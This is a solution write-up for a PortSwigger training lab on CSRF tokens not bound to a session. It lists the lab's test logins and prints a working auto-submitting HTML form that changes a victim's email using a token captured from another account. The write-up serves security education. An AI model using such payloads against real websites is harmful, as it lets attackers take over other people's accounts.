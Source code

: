 # Lab Writeup: CSRF where token is not tied to user session

URL: https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session

## Description

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

`wiener:peter` <br />
`carlos:montoya`

## Solution

1. Login using `wiener:peter` or `carlos:montoya`
2. Try changing the email and intercept using burp:

   ![csrf-untied-token](/assets/csrf-untied-token.png)

   From the above response we could see the CSRF token `DnkmVIUfepUPs6nRzKX9UBuXdyhi6iJO` which we could use in constructing our payload

3. Create the HTML payload:

   ```html
   <!DOCTYPE html>
   <html>
     <body>
       <form
         action="https://0ab800e5032e0a75832ff564007300d8.web-security-academy.net/my-account/change-email"
         method="POST"
       >
         <!-- the only input value -->
         <input type="text" name="email" value="hacker@gmail.com" />
         <!-- notice that the csrf token from one user is used against other users -->
         <input
           type="hidden"
           name="csrf"
           value="DnkmVIUfepUPs6nRzKX9UBuXdyhi6iJO"
         />
       </form>
       <script type="text/javascript">
         // automatically upload form on open
         document.forms[0].submit();
       </script>
     </body>
   </html>
   ```

4. Login using account different than the first one, go to exploit server, store and deliver the above payload to the victim and the lab should be solved:

   ![csrf-untied-token-1](/assets/csrf-untied-token-1.png)
